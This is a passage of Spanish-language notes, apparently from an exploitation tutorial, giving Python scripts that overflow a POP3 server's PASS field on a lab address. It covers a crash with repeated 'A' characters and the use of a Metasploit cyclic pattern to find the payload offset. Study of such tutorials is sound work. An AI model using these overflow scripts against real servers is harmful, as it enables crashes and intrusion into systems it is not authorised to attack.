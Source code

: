 ```python
    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + b"A"*total_length + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

>Script para saber exactamente en qué carácter podemos meter nuestro payload

 - Caracteres arbitrarios como lo que hicimos con **gdb-peda**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```


```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "192.168.1.145"
port = 110

payload = b'lo que nos da /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000'

def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```
